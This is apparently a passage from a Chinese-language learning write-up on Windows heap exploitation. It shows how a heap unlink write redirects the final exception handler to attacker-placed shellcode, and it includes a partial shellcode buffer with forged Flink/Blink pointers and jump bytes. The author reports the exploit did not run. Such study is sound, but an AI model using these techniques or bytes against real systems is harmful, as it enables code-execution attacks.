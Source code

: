 ![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rrb1n7jaj20ko0limyj.jpg>)

下一句就是任意地址写入最重要的一步了，我们通过重设堆的插入机制，将最终异常处理函数的内容改为了堆上我们指定的一个地址。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rrcr6d36j21410om77u.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rre2456bj213s0obgou.jpg>)

这样我们在运行到有异常的位置并且前面的S.E.H都无法处理时就会跳到最后的异常处理函数也就是堆上布置的位置。

最后的就是保护下一chunk中的Blink

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rrgfyxunj211i0mzacy.jpg>)

所以上面的整个过程可以归纳成这样的：

	[0x003A06B8]=0x003A06EB

	[0X003A06B8+4]=0x0012FFE4

	[0x0012FFE4]=0x003906B8

	[0x003A06EB+4]=0x003A06B8

剩下的就是跳转到shellcode了我们在3A06B8处布置两个短跳转跳到shellcode去即可

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rrmeyl6aj213u0mjmzl.jpg>)

但不知道为什么我这些都布置完了，但在div
0的时候出错运行不下去了，也就是说运行不到最终处理异常函数的位置。但整体的思路就是这样。这里我还有个疑问就是刚才小跳转的位置，如果往下移动在返回来就发现跳转的指令变了，不知道是不是因为这个原因导致shellcode无法执行

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rrsdo0zmj20hm0aet8z.jpg>)

完整的shellcode：

	char shellcode[]=

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x10\x01\x10\x00\x99\x99\x99\x99"

	"\xEB\x06\x3a\x00\xEB\x06\x3a\x00" //覆盖原始chunk中的Flink和Blink，也就是一个小跳转跳到下面的小跳转中

	"\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\xEB\x31\x90\x90\x90\x90\x90\x90" //小跳转跳到最后的shellcode的位置

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x11\x01\x10\x00\x99\x99\x99\x99"

	"\x8C\x06\x3a\x00\xe4\xFF\x12\x00" //伪造的Flink和Blink

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
